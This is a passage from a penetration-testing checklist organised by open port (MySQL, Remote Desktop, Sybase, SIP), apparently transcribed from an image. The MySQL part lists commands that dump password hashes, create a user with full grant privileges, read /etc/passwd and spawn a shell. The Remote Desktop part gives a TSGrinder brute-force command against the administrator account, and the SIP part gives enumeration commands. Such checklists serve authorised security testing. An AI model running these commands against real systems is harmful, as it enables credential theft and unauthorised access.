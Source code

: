                 mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
            Access passwords
                mysql> use mysql
                mysql> select user,password from user;
            Create a new user and grant him privileges
                mysql>create user test identified by 'test';
                mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
            Break into a shell
                mysql> \! cat /etc/passwd
                mysql> \! bash
    SQL injection
        mysql-miner.pl
            mysql-miner.pl http://target/ expected_string database
        http://www.imperva.com/resources/adc/sql_injection_signatures_evasion.html
        http://www.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/
    References.
        Design Weaknesses
            MySQL running as root
            Exposed publicly on Internet
        http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=mysql
        http://search.securityfocus.com/swsearch?sbm=%2F&metaname=alldoc&query=mysql&x=0&y=0

RDesktop port 3389 open

    Rdesktop Enumeration
        Remote Desktop Connection
    Rdestop Bruteforce
        TSGrinder
            tsgrinder.exe -w dictionary_file -l leet -d workgroup -u administrator -b -n 2 IP_Address
        Tscrack

Sybase Port 5000+ open

    Sybase Enumeration
        sybase-version ip_address from NGS
    Sybase Vulnerability Assessment
        Use DBVisualiser
            Sybase Security checksheet
                Copy output into excel spreadsheet
                Evaluate mis-configured parameters
            Manual sql input of previously reported vulnerabilties
                Advanced SQL Injection in SQL Server
                More Advanced SQL Injection
        NGS Squirrel for Sybase

SIP Port 5060 open

    SIP Enumeration
        netcat
            nc IP_Address Port
        sipflanker
            python sipflanker.py 192.168.1-254
        Sipscan
        smap
            smap IP_Address/Subnet_Mask
            smap -o IP_Address/Subnet_Mask
            smap -l IP_Address
    SIP Packet Crafting etc.
        sipsak
            Tracing paths: - sipsak -T -s sip:usernaem@domain
            Options request:- sipsak -vv -s sip:username@domain
            Query registered bindings:- sipsak -I -C empty -a password -s sip:username@domain
        siprogue
    SIP Vulnerability Scanning/ Brute Force